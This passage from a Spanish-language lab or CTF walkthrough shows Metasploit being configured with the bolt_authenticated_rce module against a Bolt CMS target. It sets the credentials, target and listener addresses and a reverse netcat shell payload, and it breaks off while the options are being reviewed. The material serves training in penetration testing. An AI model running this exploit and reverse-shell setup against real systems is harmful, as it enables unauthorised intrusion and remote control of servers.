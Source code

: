 ```
   USERNAME                              yes       Username to authenticate wi
                                                   th
   VHOST                                 no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to
                                       listen on. This must be an address on t
                                       he local machine or 0.0.0.0 to listen o
                                       n all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be s
                                     pecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)

```

Procedemos a realizar las adecuaciones que se nos piden:

```shell
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set password boltadmin123
password => boltadmin123
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set rhosts 10.201.114.180
rhosts => 10.201.114.180
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set username bolt
username => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set lhost ens5
lhost => 10.201.35.222
```

Revisamos por última vez la configuración del exploit

```
msf6 exploit(unix/webapp/bolt_authenticated_rce) > options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name               Current Setting    Required  Description
   ----               ---------------    --------  -----------
   FILE_TRAVERSAL_PA  ../../../public/f  yes       Traversal path from "/files
   TH                 iles                         " on the web server to "/ro
                                                   ot" on the server
   PASSWORD           boltadmin123       yes       Password to authenticate wi
                                                   th
   Proxies                               no        A proxy chain of format typ
                                                   e:host:port[,type:host:port
                                                   ][...]
   RHOSTS             10.201.114.180     yes       The target host(s), see htt
```